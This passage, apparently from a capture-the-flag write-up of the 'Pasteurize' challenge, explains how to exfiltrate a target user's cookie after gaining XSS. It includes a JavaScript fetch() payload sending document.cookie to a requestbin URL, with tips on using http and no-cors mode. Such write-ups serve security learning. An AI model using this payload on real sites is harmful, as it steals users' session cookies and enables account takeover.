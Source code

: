 Now that we have XSS we need to exfiltrate TJMike's cookie. To do so we can simply use `fetch()` to request a remote url and include cookies as URL parameters.

For example:

```javascript
fetch('https://requestbin.net/r/myaccount?cookies='+ encodeURIComponent(document.cookie), { mode: "no-cors" })

```

If you try this with the `https` site you will encounter an error similar to this.

![view-post-xss-https](./images/view-post-xss-https.png)

You should make sure that you are connect to  [Pasteurize](http://pasteurize.web.ctfcompetition.com/)  over `http` otherwise there will be issues with CORS. Just to be safe we'll set the fetch `mode` option to `no-cors`.

![requestbin-cookie-sample](./images/requestbin-cookie-sample.png)
